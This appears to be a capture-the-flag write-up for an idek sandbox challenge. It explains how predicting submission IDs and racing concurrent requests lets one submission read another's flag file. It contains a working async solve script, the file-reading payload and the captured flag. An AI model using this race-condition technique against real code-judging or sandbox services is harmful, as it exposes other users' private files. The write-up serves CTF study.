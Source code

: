 ```yaml
---
ai_date: '2025-04-27 05:18:29'
ai_summary: Exploited race condition to read previous submission's flag by predicting
  and targeting its ID
ai_tags:
- race
- file-read
- rce
created: 2024-08-17T21:27
points: 257
solves: 63
updated: 2024-08-18T21:33
---
```


Yet-Another-Python-Sandbox-Or-Is-It?
## problem

- Sandboxed python again?
- We are allowed to read files, just not the `/tmp/[id].expected` file which contains the flag.

But each submission is only forbidden from accessing their own `.expected` file, what if we read it from a previous submission?

## solution

Submit a dummy lagging code, it will pass the first test case and hang on the second one. We will predict its id and store it as `I`.

There will be a ~1s window where `/tmp/{I}.expected` will contain the flag.

```python [lag_machine.py]
i = input()
if "Welcome to Crator" not in i:
    for i in range(10**9):
        print(i)
else:
    print(i)
```

While the request is happening, send multiple new submissions each trying to read the file `/tmp/{I}.expected`, and print the results.

The sandboxed `open` only checks for 1 id, so they will be able to read the file without issue.

```python
w = True # print 1 instance of 'Welcome...' for sanity purpose
for i in range(10**9):
    try:
        with open("/tmp/{target}.expected") as f:
            r = f.read()
            if 'Welcome' not in r or w:
                print(r,flush=True)
                w=False
    except Exception as e: # handle file not exist issues
        pass
```

Yes, there is no sandbox breakout, just some race condition.
## solve script

```python [solve.py]
import re
import time
import aiohttp
import asyncio


sid = 0
t = 'https://crator-2de64099b8890ab7.instancer.idek.team'

lagging_code = '''
i = input()
if "Welcome to Crator" not in i:
    for i in range(10**9):
        print(i)
else:
    print(i)
'''


async def init(s):
    global sid
    await s.post(f"{t}/register", data={'username': 'kumo', 'password': 'kumo'})
    await s.post(f"{t}/login", data={'username': 'kumo', 'password': 'kumo'})
    r = await s.post(f"{t}/submit/helloinput", data={'code': 'print("hello")'}, allow_redirects=True)
    sid = int(str(r.url).split('/')[-1])
    sid += 1


async def thief(s, target, delay=0):
    time.sleep(delay)
    r = await s.post(f"{t}/submit/helloinput", data={'code': f'''
w = True
for i in range(10**9):
    try:
        with open("/tmp/{target}.expected") as f:
            r = f.read()
            if 'Welcome' not in r or w:
                print(r,flush=True)
                w=False
    except Exception as e:
        pass'''})
    text = await r.text()
    if 'idek{' in text:
        print(re.search(r'idek{(.*)}', text).group(0))


async def attack_chain(s):
    global sid
    jobs = []
    jobs.append(s.post(f"{t}/submit/helloinput", data={'code': lagging_code}))
    for i in range(5):
        jobs.append(thief(s, sid, i/10))
    await asyncio.gather(*jobs)
    print("chain executed", sid, '..', sid+5, t)
    sid += 6


async def main():
    global sid
    async with aiohttp.ClientSession() as s:
        await init(s)
        await attack_chain(s)

asyncio.run(main())
```

```sh
$ python solve.py
idek{1m4g1n3_n0t_h4v1ng_pr0p3r_s4ndb0x1ng}
idek{1m4g1n3_n0t_h4v1ng_pr0p3r_s4ndb0x1ng}
chain executed 2 .. 7 https://crator-2de64099b8890ab7.instancer.idek.team
```

```flag
idek{1m4g1n3_n0t_h4v1ng_pr0p3r_s4ndb0x1ng}
```